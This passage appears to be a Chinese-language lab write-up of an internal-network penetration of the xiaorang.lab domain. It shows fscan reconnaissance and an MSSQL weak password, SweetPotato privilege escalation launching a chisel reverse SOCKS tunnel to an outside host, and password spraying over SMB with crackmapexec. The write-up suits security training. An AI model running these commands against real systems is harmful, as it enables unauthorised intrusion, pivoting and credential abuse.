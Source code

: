 上传 fscan

扫描一下内网

```python
存活主机（ICMP）：172.22.8.18, 172.22.8.15, 172.22.8.31, 172.22.8.46
有效端口数量: 17
开放端口示例：
172.22.8.18:139, 172.22.8.31:445, 172.22.8.31:139, 172.22.8.31:135, ...
发现的主机名（部分）：
172.22.8.46: WIN2016
172.22.8.31: WIN19-CLIENT
172.22.8.15: DC01
172.22.8.18: WIN-WEB
网站标题：
http://172.22.8.18 状态码:200 长度:703 标题:IIS Windows Server
http://172.22.8.46 状态码:200 长度:703 标题:IIS Windows Server
发现 MSSQL 弱口令：
MSSQL 172.22.8.18:1433 sa 1qaz!QAZ
```

18 机子我们已经拿下来了 

根据刚才的提示，继续上 chisel 代理一下

```python
C:/Users/Public/SweetPotato.exe -a "C:/Users/Public/chisel.exe client 43.134.9.57:8000 R:0.0.0.0:1080:socks"
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754288437946-4d4dba5e-4b91-46a0-957c-5896d48b4ee3.png)

开启代理，喷撒一下刚刚给的密码

> 这里利用crackmapexec 工具
>

```python
┌──(root㉿kali)-[/mnt/hgfs/shared]
└─# proxychains crackmapexec smb 172.22.8.1/24 -u Aldrich -p 'Ald@rLMWuy7Z!#' -d xiaorang.lab 2>/dev/null

[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing WINRM protocol database
[*] Initializing MSSQL protocol database
[*] Initializing FTP protocol database
[*] Initializing SSH protocol database
[*] Initializing RDP protocol database
[*] Initializing LDAP protocol database
[*] Initializing SMB protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         172.22.8.46     445    WIN2016          [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN2016) (domain:xiaorang.lab) (signing:False) (SMBv1:True)
SMB         172.22.8.31     445    WIN19-CLIENT     [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN19-CLIENT) (domain:xiaorang.lab) (signing:False) (SMBv1:False)
SMB         172.22.8.15     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:xiaorang.lab) (signing:True) (SMBv1:False)
SMB         172.22.8.46     445    WIN2016          [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z!# STATUS_PASSWORD_EXPIRED 
SMB         172.22.8.18     445    WIN-WEB          [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN-WEB) (domain:xiaorang.lab) (signing:False) (SMBv1:True)
SMB         172.22.8.31     445    WIN19-CLIENT     [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z!# STATUS_PASSWORD_EXPIRED 
SMB         172.22.8.15     445    DC01             [-] xiaorang.lab\Aldrich:Ald@rLMWuy7Z!# STATUS_PASSWORD_EXPIRED 
```